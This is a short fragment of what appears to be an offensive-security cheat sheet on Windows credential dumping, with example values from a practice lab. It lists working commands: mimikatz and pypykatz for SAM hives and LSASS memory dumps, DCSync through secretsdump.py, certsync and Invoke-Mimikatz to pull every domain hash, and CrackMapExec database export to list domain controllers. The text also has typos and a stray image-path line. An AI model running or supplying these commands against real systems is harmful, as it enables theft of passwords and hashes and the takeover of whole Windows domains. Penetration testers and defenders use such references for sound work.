 remotely
```powershell
# No AV/Disabled
mimimkatz xD
```

locally
```powershel;=
#download the system and sam and then use 
pypykatz registry --sam <sam> system

#DMP File
pypykatz lsa minidump lsass.DMP

#procdump
#nanodump
#lsassy
#masky
#dragoncastle

```
DCSync (DA Privileges Required)

Linux
```
secretsdump.py -just-dc <user>:<password>@<ipaddress> -just-dc-user Administrator

# Alternative (ADCS Must be Enabled)
certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
```

Windows
```
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
```


## CrackMapExec Magic

```bash
# The CMEDB contains useful information and provides exportation capabilities.
cmedb

# once inside
help

# export host and create a list of host based off text
export hosts hosts.csv
cat hosts.csv | grep -i 'dc' | cut -d ',' -f 2 > dc.txt
```

# Linux
## Linux Tips and Tricks
